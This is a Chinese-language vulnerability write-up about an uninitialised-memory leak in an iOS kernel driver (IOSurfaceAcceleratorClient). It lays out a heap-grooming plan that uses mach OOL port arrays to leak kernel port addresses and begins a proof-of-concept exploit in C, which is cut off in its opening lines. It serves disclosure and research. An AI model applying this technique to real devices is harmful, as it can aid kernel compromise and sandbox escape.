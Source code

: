 ```
  }
  this->stopClient();
  return false;
}
```

这是可疑的。histogramBuffer 已分配但未填充，并且 IOMalloc 不会将内存归零，从而使 histogramBuffer 完全未初始化。正是在这一点上，我尝试为我自己调用该方法，但没有人感到惊讶，发现自己在看很多 0xdeadbeef，这是未初始化内存的典型标志。

**“开发”**
--------

我们正在将未初始化的内存泄漏回用户空间，但是我们该怎么办？像这样的信息泄漏自身相对而言是无害的，但是在利用其他内存损坏问题时有时是必不可少的。进行漏洞利用的一个常见要求是找到马赫端口地址，因此这是我进行漏洞利用的目标，但值得一提的是，该漏洞也可以用来击败 kASLR。

我为此漏洞利用选择的目标分配是 mach 消息脱机端口阵列。发送马赫消息时，可以选择将消息标记为 “复杂”。这告诉内核，标头后面的不是原始数据，而是一个 “主体”，后跟与消息一起发送的描述符。这些描述符之一是 mach_msg_ool_ports_descriptor_t，这是 一组插入到接收任务中的离线端口权限。

内核通过创建一个缓冲区来处理这些 OOL 端口，该缓冲区包含一个在消息发送时指向数组中每个端口的指针，并在收到消息后释放该缓冲区（有关此代码，请参见 ipc_kmsg_copyin_ool_ports_descriptor，如果您感兴趣，则为 “非常复杂，太长了，无法在此处粘贴）。这对我们来说是完美的！我们可以使用它来触发任何大小的内核分配，其中包含我们要读取的确切数据（马赫端口指针），并且我们可以在任何时候完全确定地释放它。

### **高级漏洞利用流程**

因此，我的漏洞利用计划如下所示：

1.  发送一些消息，其 OOL 端口数组的大小与 client-> histogramSize 相同
    
2.  通过接收消息释放这些阵列
    
3.  打开一个 IOSurfaceAcceleratorClient 连接，分配 histogramBuffer，它现在应该与这些空闲端口数组之一重叠
    
4.  调用外部方法 9，将端口指针读回到用户空间
    
5.  利润
    

在我的设备上，client-> histogramSize 为 0x300，这意味着我的端口阵列的长度必须为 96 个端口。我选择发送 0x80 消息，但这是我凭空提出的一个完全任意的数字，不要过多看它。

### **漏洞利用**

最终的利用如下：  

```
#include <stdlib.h>
#include <assert.h>
#include <stdio.h>
#include <mach/mach.h>
#include <IOKit/IOKitLib.h>
#if 0
AppleM2ScalerCSCDriver Infoleak:
IOSurfaceAcceleratorClient::user_get_histogram takes a userspace pointer and writes histogram data back to that address.
IOSurfaceAcceleratorClient::initClient allocates this histogram buffer, but does not zero the memory.
When the external method IOSurfaceAcceleratorClient::user_get_histogram is called, this uninitialised memory is then sent back to userspace.
This vulnerability is reachable from within the app sandbox on iOS.
Below is a proof-of-concept exploit which utilises this vulnerability to leak the address of any mach port that the calling process holds a send-right to.
Other kernel object addresses can be obtained using this vulnerability in similar ways.
#endif

#define ASSERT_KR(kr) do { \
  if (kr != KERN_SUCCESS) { \
    fprintf(stderr, "kr: %s (0x%x)\n", mach_error_string(kr), kr); \
    exit(EXIT_FAILURE); \
  } \
```